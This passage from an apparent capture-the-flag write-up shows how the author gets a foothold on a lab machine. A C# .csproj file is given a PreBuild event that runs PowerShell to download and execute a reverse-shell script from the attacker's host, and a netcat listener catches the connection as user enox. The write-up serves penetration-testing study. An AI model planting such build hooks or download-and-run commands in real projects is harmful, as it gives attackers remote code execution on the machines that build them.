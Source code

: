 I can see that the application is compiling the files in the git repo. We need to find a way to exploit this process. After some googling, I found this [Microsoft page](https://learn.microsoft.com/en-us/visualstudio/ide/how-to-specify-build-events-csharp?view=vs-2022) explaining that a "pre-build event" refers to a script or command that is executed before the build process for the project begins.

We can use a `PreBuild` event in the `.csproj` file to execute some commands. So let's try to add a reverse shell. 

- Below is my modified `.csproj` file
```
<Project Sdk="Microsoft.NET.Sdk">

  <PropertyGroup>
    <OutputType>Exe</OutputType>
    <TargetFramework>net6.0</TargetFramework>
    <ImplicitUsings>enable</ImplicitUsings>
    <Nullable>enable</Nullable>
  </PropertyGroup>

<Target Name="PreBuild" BeforeTargets="PreBuildEvent">
    <Exec Command="powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.222:8000/revshell.ps1')" />
  </Target>

</Project>
```

- Let's create a `revshell.ps1` PowerShell script to get a remote shell. I used this [nishang shell](https://github.com/K-Scorpio/scripts-collection/blob/main/revshell.ps1) for the reverse shell. I took this [shell](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1), changed the function name and added the reverse switch at the end.

I setup a netcat listener with

```
nc -nvlp 9001
```

We use the git commands again

```
git add .
git commit -m "Add as a test"
cd .git
git --bare update-server-info
cd ..
```

If you stopped your Python server start it again (and leave it running) and submit your link.

The listener should catch a shell after the compilation is done, we are in!

![nc listener, reverse shell](/images/HTB-Visual/nc-listener-shell.png)


Running `whoami` I see that I'm currently connected as the user `enox`.
